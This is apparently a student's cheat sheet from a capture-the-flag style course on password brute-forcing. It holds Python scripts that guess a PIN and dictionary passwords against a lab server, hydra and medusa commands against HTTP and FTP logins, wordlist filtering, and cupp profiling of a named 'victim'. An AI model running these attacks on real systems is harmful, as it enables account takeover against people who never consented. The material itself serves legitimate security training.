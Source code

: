 ## Python coding

### Bruteforce with 4 digits
```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

### Bruteforce with dictionary with only password
```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

## Pen-testing

### Basic http Auth
```zsh
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt IP http-get / -s PORT
```

### Auth with a POST form 
```zsh
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```

### FTP auth
```zsh
medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
```

## Grepping for password policices

### Cut to 8 characters minimum
```zsh
grep -E '^.{8,}$' darkweb2017-top10000.txt > darkweb2017-minlength.txt
```

### Enforces the policy's demand for at least one uppercase letter
```zsh
grep -E '[A-Z]' darkweb2017-minlength.txt > darkweb2017-uppercase.txt
```

### Enforces the policy's demand for at least one lowercase letter
```zsh
grep -E '[a-z]' darkweb2017-uppercase.txt > darkweb2017-lowercase.txt
```

### Enforces the policy's demand for at least one numerical digit
```zsh
grep -E '[0-9]' darkweb2017-lowercase.txt > darkweb2017-number.txt
```

## Wordlists
```zsh
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2023-200_most_used_passwords.txt
```

```zsh
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/darkweb2017-top10000.txt
```

```zsh
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
```

## Generating custom wordlists 

### Generating custom wordlists with username-anarchy 


```zsh
sudo apt install ruby -y
```

```zsh
git clone https://github.com/urbanadventurer/username-anarchy.git
```

```zsh
cd username-anarchy
```

```zsh
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

## Generating custom wordlists with cupp

```zsh
sudo apt-get install -y cupp
```

```zsh
cupp -i

___________
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Jane
> Surname: Smith
> Nickname: Janey
> Birthdate (DDMMYYYY): 11121990


> Partners) name: Jim
> Partners) nickname: Jimbo
> Partners) birthdate (DDMMYYYY): 12121990


> Child's name:
> Child's nickname:
> Child's birthdate (DDMMYYYY):


> Pet's name: Spot
> Company name: AHI


> Do you want to add some key words about the victim? Y/[N]: y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: hacker,blue
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to jane.txt, counting 46790 words.
[+] Now load your pistolero with jane.txt and shoot! Good luck!
```


## Commands for testing access and some other useful ones


### List active ports

```zsh
netstat -tulpn | grep LISTEN
```

```zsh
nmap localhost
```

